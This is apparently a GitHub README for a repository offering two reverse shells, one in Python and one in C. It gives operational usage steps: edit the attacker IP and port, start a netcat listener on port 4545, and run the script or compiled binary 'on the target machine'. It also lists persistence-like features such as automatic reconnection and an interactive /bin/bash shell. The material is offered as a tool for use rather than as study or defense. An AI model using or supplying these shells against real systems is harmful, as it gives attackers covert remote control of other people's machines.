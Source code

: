 # Reverse Shells (Python/C)

Here is 2 reverse shells written in **C** and **Python**

---

## Python Reverse Shell

### Compatibility
- `+` **Linux**
- `+` **Windows**  

### Usage
##### [!] Edit the IP and port in the script:
```
LHOST = 'YOUR_IP'
LPORT = 4545
```
Start a listener on your machine:
```
nc -lvnp 4545
```
Run the script on the target machine:
```
python reverse-shell.py
```
### Features

- Auto reconnecting every 5 seconds if connection isnt successful

- Easy to modify

## C Reverse Shell
### Compatibility

`+` Linux

`-` Windows (uses specific syscalls for linux)

### Compiling
```
gcc linux-reverse-shell.c -o reverse-shell
```
### Usage

#### [!] Edit the IP and PORT in code
```
#define IP "YOUR_IP"
#define PORT 4545 //or you can choose some other port
```

Start a listener:
```
nc -lvnp 4545
```
Run the compiled program on the target

```
./reverse_shell
```
### Features

- script will retry to connect every 20 seconds

- Interactive with /bin/bash shell
